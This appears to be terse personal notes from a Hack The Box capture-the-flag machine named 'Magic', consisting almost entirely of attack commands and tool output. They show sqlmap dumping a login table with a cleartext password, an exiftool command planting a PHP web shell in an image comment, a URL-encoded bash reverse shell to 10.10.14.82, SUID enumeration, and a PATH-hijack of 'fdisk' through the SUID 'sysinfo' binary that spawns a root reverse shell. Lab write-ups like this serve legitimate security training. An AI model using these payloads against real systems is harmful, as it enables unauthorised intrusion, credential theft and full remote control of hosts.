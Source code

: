 sqlmap -u "http://magic.htb/" --crawl=2 --random-agent --batch --forms --threads=5 --level=5 --risk=3 --dbs

sqlmap -u "http://magic.htb/" --crawl=2 --random-agent --batch --forms --threads=5 --level=5 --risk=3 --tables

sqlmap -u "http://magic.htb/" --crawl=2 --random-agent --batch --forms --threads=5 --level=5 --risk=3 -D "Magic" -T "login" --dump

[10:10:07] [INFO] retrieving the length of query output
[10:10:07] [INFO] retrieved: 2
[10:10:10] [INFO] retrieved: id           
[10:10:10] [INFO] retrieving the length of query output
[10:10:10] [INFO] retrieved: 8
[10:10:14] [INFO] retrieved: username           
[10:10:14] [INFO] retrieving the length of query output
[10:10:14] [INFO] retrieved: 8
[10:10:18] [INFO] retrieved: password           
[10:10:18] [INFO] fetching entries for table 'login' in database 'Magic'
[10:10:18] [INFO] fetching number of entries for table 'login' in database 'Magic'
[10:10:18] [INFO] retrieved: 1
[10:10:19] [INFO] retrieving the length of query output
[10:10:19] [INFO] retrieved: 14
[10:10:25] [INFO] retrieved: Th3s3usW4sK1ng             
[10:10:25] [INFO] retrieving the length of query output
[10:10:25] [INFO] retrieved: 1
[10:10:25] [INFO] retrieved: 1
[10:10:26] [INFO] retrieving the length of query output
[10:10:26] [INFO] retrieved: 5
[10:10:29] [INFO] retrieved: admin 

exiftool -Comment='<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>' lo2.jpg

upload image

browse to http://magic.htb/images/uploads/lo2.php.jpg?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.10.14.82/9001%200%3E%261%27

used thesesus as user and password Th3s3usW4sK1ng using `su - theseus`

theseus@ubuntu:~$ find / -perm -4000 2>/dev/null
/usr/sbin/pppd
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/chsh
/usr/bin/traceroute6.iputils
/usr/bin/arping
/usr/bin/vmware-user-suid-wrapper
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/lib/snapd/snap-confine
/snap/core18/2074/bin/mount
/snap/core18/2074/bin/ping
/snap/core18/2074/bin/su
/snap/core18/2074/bin/umount
/snap/core18/2074/usr/bin/chfn
/snap/core18/2074/usr/bin/chsh
/snap/core18/2074/usr/bin/gpasswd
/snap/core18/2074/usr/bin/newgrp
/snap/core18/2074/usr/bin/passwd
/snap/core18/2074/usr/bin/sudo
/snap/core18/2074/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/2074/usr/lib/openssh/ssh-keysign
/snap/core18/1668/bin/mount
/snap/core18/1668/bin/ping
/snap/core18/1668/bin/su
/snap/core18/1668/bin/umount
/snap/core18/1668/usr/bin/chfn
/snap/core18/1668/usr/bin/chsh
/snap/core18/1668/usr/bin/gpasswd
/snap/core18/1668/usr/bin/newgrp
/snap/core18/1668/usr/bin/passwd
/snap/core18/1668/usr/bin/sudo
/snap/core18/1668/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/1668/usr/lib/openssh/ssh-keysign
/snap/core20/1026/usr/bin/chfn
/snap/core20/1026/usr/bin/chsh
/snap/core20/1026/usr/bin/gpasswd
/snap/core20/1026/usr/bin/mount
/snap/core20/1026/usr/bin/newgrp
/snap/core20/1026/usr/bin/passwd
/snap/core20/1026/usr/bin/su
/snap/core20/1026/usr/bin/sudo
/snap/core20/1026/usr/bin/umount
/snap/core20/1026/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1026/usr/lib/openssh/ssh-keysign
/snap/core/11316/bin/mount
/snap/core/11316/bin/ping
/snap/core/11316/bin/ping6
/snap/core/11316/bin/su
/snap/core/11316/bin/umount
/snap/core/11316/usr/bin/chfn
/snap/core/11316/usr/bin/chsh
/snap/core/11316/usr/bin/gpasswd
/snap/core/11316/usr/bin/newgrp
/snap/core/11316/usr/bin/passwd
/snap/core/11316/usr/bin/sudo
/snap/core/11316/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/11316/usr/lib/openssh/ssh-keysign
/snap/core/11316/usr/lib/snapd/snap-confine
/snap/core/11316/usr/sbin/pppd
/snap/core/8689/bin/mount
/snap/core/8689/bin/ping
/snap/core/8689/bin/ping6
/snap/core/8689/bin/su
/snap/core/8689/bin/umount
/snap/core/8689/usr/bin/chfn
/snap/core/8689/usr/bin/chsh
/snap/core/8689/usr/bin/gpasswd
/snap/core/8689/usr/bin/newgrp
/snap/core/8689/usr/bin/passwd
/snap/core/8689/usr/bin/sudo
/snap/core/8689/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8689/usr/lib/openssh/ssh-keysign
/snap/core/8689/usr/lib/snapd/snap-confine
/snap/core/8689/usr/sbin/pppd
/bin/umount
/bin/fusermount
/bin/sysinfo
/bin/mount
/bin/su
/bin/ping

suid for sysinfo was accessible by user.

is `ltrace sysinfo` we saw that `fdisk` was calling a relative path, which was open for a path attack:

```
====================Disk Info====================
)                              = 0x564a2dbc4020
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEEC1Ev(0x7fff3f883620, 0x564a2d9c2972, 0, 2880)                = 0x7fff3f883630
popen("fdisk -l", "r") <-- HERE                                                                                           = 0x564a2f029280
fgets(fdisk: cannot open /dev/loop0: Permission denied
fdisk: cannot open /dev/loop1: Permission denied
```

so we can set a file for `fdisk` in our path at say `/tmp/fdisk` and add to our path with `export PATH=/tmp:$PATH` and put a reverse shell into that `fdisk` file and run `sysinfo` gain root:

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.82/9001 0>&1
```
